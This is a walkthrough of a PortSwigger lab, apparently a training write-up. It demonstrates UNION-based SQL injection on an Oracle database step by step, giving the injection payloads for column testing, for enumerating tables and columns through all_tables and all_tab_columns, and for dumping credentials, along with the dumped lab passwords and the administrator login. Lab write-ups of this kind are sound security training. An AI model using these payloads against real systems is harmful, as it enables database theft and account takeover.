








# 🎯 SQL Injection: Listing the Database Contents on Oracle

**Write-Up by Aditya Bhatt | UNION-Based SQLi | Oracle Enumeration | BurpSuite**

If you think Oracle-based SQLi is rare, trust me — it’s alive, breathing, and waiting for someone to poke it. This PortSwigger lab hides a classic UNION-based SQL injection inside the *product category filter*, and our job is to pull out the users table, extract creds, and break in as the administrator.

[Lab Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) <br/>



---

# 🧪 TL;DR

* The category filter is injectable.
* Two text columns → UNION queries possible.
* Enumerated tables using all_tables.
* Identified users table: USERS_XWMOWS.
* Extracted column names → username + password.
* Dumped credentials and logged in as administrator.
* Lab SOLVED. 🔥

---

# 🌐 Brief Intro

This lab uses an Oracle backend, which means:
No information_schema, no SELECT without FROM, and yes — we rely on dual and Oracle’s built-in metadata tables (all_tables, all_tab_columns). Once we confirm the number of columns and their data types, it becomes a clean enumeration → extraction → login flow.

Perfect playground for precise, clean SQLi enumeration. 💫

---

# 🧬 Step-By-Step PoC (Screenshots included)

## **1. Open the Lab & Choose a Category**

Opened the lab and picked a simple filter like **Lifestyle** to generate the request we want to tamper with.



---

## **2. Test for SQLi Using UNION**

Injected this payload into the category parameter:

```
'+UNION+SELECT+'a','b'+FROM+dual--
```

It rendered properly → confirms **2 columns** and both accept text.



➤ Why?
We need to confirm column count + datatypes because UNION queries must match the target query’s structure. Oracle throws ORA-errors otherwise.

---

## **3. Enumerate All Tables in the Database**

Next payload used:

```
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
```

This dumped a huge list of Oracle system and application tables.



➤ Why?
Oracle stores metadata in all_tables — perfect for discovering apps’ custom tables. We look for anything that resembles a user table.

---

## **4. Identify the Correct Users Table**

From the entire dump, the best educated guess for credential storage is:

USERS_XWMOWS

This fits the naming pattern PortSwigger uses (random suffix appended).

---

## **5. Enum Columns Inside the Users Table**

Payload used:

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XWMOWS'--
```

Output:

email
PASSWORD_GPUUAA
USERNAME_NJJLEA



➤ Why?
Oracle stores columns in all_tab_columns. Now we know which fields store usernames & passwords.

---

## **6. Dump Usernames & Passwords**

Final payload:

```
'+UNION+SELECT+USERNAME_NJJLEA,+PASSWORD_GPUUAA+FROM+USERS_XWMOWS--

```

Dumped creds:

administrator → nyigvup4ay8i3s1kkkmj
carlos → 6uiufmsacs8rxp1ofl0b
wiener → 8r8rgwk1jr4iscupys3g



➤ Why?
Once we know the column names, extracting rows becomes trivial.

---

## **7. Login as Administrator**

Went to My Account → entered administrator + password → logged in successfully.



---

## **8. Lab SOLVED 🎉**



---

# 🧠 Key Takeaways

* Oracle SQLi requires `FROM dual` in many cases.
* Use `all_tables` and `all_tab_columns` for enumeration.
* Randomized table/column suffixes are common → pick the most logical candidates.
* UNION SQLi is still one of the cleanest ways to exfiltrate data when responses are reflected.

---

# 👋 Final Thoughts

Thanks for sticking with the walkthrough! Oracle-based SQLi feels different from MySQL/PostgreSQL, but once you understand the metadata structure, it becomes a smooth ride. Whether you’re practicing for VAPT, real-world audits, or bug bounties — enumeration is always your strongest tool.

Till the next lab, <br/>
Stay curious, stay sharp. <br/>
— **Aditya Bhatt** 🔥

---
